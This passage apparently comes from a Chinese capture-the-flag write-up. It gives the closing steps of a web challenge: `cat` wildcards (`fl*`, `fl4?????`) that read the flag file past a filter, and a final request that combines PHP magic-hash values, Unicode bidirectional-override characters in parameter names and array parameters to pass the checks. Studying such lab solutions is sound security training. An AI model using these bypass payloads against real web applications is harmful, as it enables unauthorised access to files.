 这里利用 `cat` 的通配符支持即可; `cat` 支持 `?` 和 `*` 匹配; 由于 **`*` 支持任意长度, `?` 仅支持单位**, 这里用 `*`

payload:

```
(POST)
want=fl*
或者
want=fl4?????
```

最终:

```
(GET)
/?user=114514&mySaid=QNKCDZO&myHeart=0e215962017&hn=hn&%E2%80%AE%E2%81%A6LAG%E2%81%A9%E2%81%A6ctf=%E2%80%AE%E2%81%A6%20Flag!%E2%81%A9%E2%81%A6ctf HTTP/1.1

(POST)
data[]=Probiu&verify[]=1&want=fl*
```

![31-3.png](31-3.png)

